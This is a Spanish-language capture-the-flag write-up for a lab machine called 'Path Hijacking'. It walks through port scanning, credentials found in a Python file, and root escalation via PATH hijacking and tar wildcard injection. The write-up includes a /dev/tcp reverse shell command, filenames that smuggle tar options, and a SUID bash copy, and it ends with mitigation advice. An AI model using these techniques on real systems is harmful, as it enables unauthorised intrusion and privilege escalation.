





# >_ [Path Hijacking]

| Propiedad | Detalle |
| :--- | :--- |
| **Plataforma** | Whoami Labs |
| **Dificultad** | 🟢 Fácil  |
| **OS** | Linux  |
| **IP de la Máquina** | `172.0.0.2` |
| **Fecha de resolución** | 2026-09-02 |

---

## 📝 Descripción
SUID & Sudo
Máquina enfocada en la explotación de un servicio web vulnerable y posterior escalada de privilegios mediante abuso de permisos SUDO.

---

## 🔍 1. Fase de Reconocimiento y Enumeración

### Escaneo de Puertos (`nmap`)
Lanzamos un escaneo inicial para identificar los puertos abiertos y los servicios activos en la máquina objetivo:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oN allPorts
```

**Resultados del escaneo:**
* **Puerto 22/TCP**: SSH
* **Puerto 80/TCP**: HTTP
* **Puerto 8080/TCP**: HTTP:PROXY

*Escaneo profundo de servicios:*
```bash
sudo nmap -p22,80,8080 -sCV 172.17.0.2 -oN targeted
```
| Puerto | Estado | Servicio | Versión |
| :---: | :---: | :--- | :--- |
| **22 / TCP** | 🟢 Abierto | SSH | OpenSSH 8.9p1 (Ubuntu Linux) |
| **80 / TCP** | 🟢 Abierto | HTTP | SimpleHTTPServer 0.6 (Python 3.10.12) |
| **8080 / TCP** | 🟢 Abierto | HTTP | Golang net/http server |

Vemos que tenemos dos sitios web y el puerto ssh pero no conocemos ninguna credencial así que empezamos revisando los sitios web.

### Enumeración Web (Puerto 80)
Al inspeccionar el sitio web, nos encontramos con la siguiente interfaz:


Aplicamos fuzzing de directorios usando dirbuster para buscar rutas ocultas:



---

### Enumeración Web (Puerto 8080)
Al inspeccionar el sitio web, nos encontramos con la siguiente interfaz:


Aplicamos fuzzing de directorios pero no encontramos nada, por lo que de momento la descartamos y continuamos con la web del puerto 80.


## 💥 2. Fase de Explotación 

### Vector de Ataque
En la enumeración web, descubrimos un directorio dev con dos carpetas y un txt. Después de ir revisando todos los documentos que contenía, descubrimos que dentro de un fichero en python dentro del directorio .conf hay unas credenciales de un usuario de ssh.
Probamos las credenciales encontradas para conectarnos por ssh al puerto 22 y funcionan.
Ahora somos el usuario srv_backup.



---

## 👑 3. Escalada de Privilegios

### Enumeración del Sistema
Ahora necesitamos escalar privilegios para ser root.
Analizamos el entorno buscando vectores comunes de escalada (permisos SUID, tareas Cron, capacidades, contraseñas en texto plano).

```bash
# Comprobamos binarios
find / -perm -4000 2>/dev/null
```

Tenemos un binario vulnerable, es /usr/local/bin/backup
Lo lanzamos para ver que hace y vemos que crea un backup automático de todo lo que hay en la carpeta del usuario srv_backup.



Así que vamos a aprovecharlo para poder ser root.

### Explotación del Vector de Escalada
Encontrado el binario, vamos a explotarlo. Lo analizamos con strings y vemos que el binario crea un .tar de todo lo que hay en la ruta home y no lo hace con la ruta absoluta.


```bash
# Podemos filtrar para verlo mejor
strings /usr/local/bin/backup | grep -E '(/|cp|mv|tar|cat|chmod|chown|mkdir|rm|find|python|bash|sh)'
```
Nos muestra:
/lib64/ld-linux-x86-64.so.2
__libc_start_main
__gmon_start__
tar -czf /tmp/backup.tar.gz /home/* 2>/dev/null
__libc_start_main@GLIBC_2.34
__data_start
__gmon_start__
__bss_start
.shstrtab
.gnu.hash

Ahora que hemos visto lo que hace vamos a ver si podemos modificar el $PATH y poner primero la carpeta tmp, para que busque primero los ejecutables en /tmp, antes que en /usr/local/.
```bash
export PATH=/tmp:$PATH
```

Comprobamos que el cambio ha sido aceptado.
¡Nos deja!

Levantamos un listener en el puerto 442 y preparamos los archivos que aprovecharemos mediante las opciones de tar:
```bash
touch /home/srv_backup/--checkpoint=1
touch /home/srv_backup/--checkpoint-action=exec=sh\ run.sh
```

A continuación, creamos un ejecutable llamado tar dentro de /tmp. De esta forma, debido al orden del $PATH, el sistema utilizará nuestro ejecutable antes que el tar legítimo.
```bash
cat > tar <<'EOF' #!/bin/sh
sh -i >& /dev/tcp/172.17.0.1/442 0>&1
EOF
```

Le damos permisos de ejecución:
```bash
chmod +x /tmp/tar
```

Creamos el script que copiará /bin/bash a /tmp/rootbash y le asignará el bit SUID:
```bash
echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" > /home/srv_backup/run.sh
```

Y le damos permisos de ejecución:
chmod +x /home/srv_backup/run.sh


Ahora ejecutamos el binario:
```bash
/usr/local/bin/backup
```

El binario vulnerable ejecuta internamente un comando similar a:

tar -czf ... /home/*

El * se expande antes de que tar reciba los argumentos, incluyendo nuestros archivos:

--checkpoint=1
--checkpoint-action=exec=sh run.sh

Esto provoca que tar ejecute el script run.sh.

Una vez finalizada la ejecución del backup, comprobamos si se ha creado correctamente /tmp/rootbash:
```bash
ls -l /tmp/rootbash
```

Como todo ha funcionado correctamente,  ejecutamos la shell conservando los privilegios:
```bash
/tmp/rootbash -p
```

Con esto obtenemos una shell con privilegios elevados.



**¡Ya somos root!**

En el fichero flag.txt tenemos la flag. 🚩

Para finalizar, vamos a nuestra terminal y ponemos la flag completa.



---

## 🏁 4. Conclusiones y Mitigación
* **Vulnerabilidad Principal**: Credenciales almacenadas en texto plano dentro de un archivo Python, permitiendo su extracción y posterior acceso no autorizado. / Binarios con permisos SUDO mal configurados.
* **Remediación**: No almacenar credenciales directamente en el código. Utilizar variables de entorno o un gestor de secretos, aplicar el principio de mínimo privilegio y revisar periódicamente los permisos y credenciales utilizadas.
### Mitigación
* Usar rutas absolutas para ejecutar comandos.
* No confiar en variables de entorno controlables por el usuario.
* Evitar comodines sobre archivos controlados por usuarios.
* Ejecutar el backup con el mínimo privilegio necesario.
* Revisar los permisos de archivos y directorios.


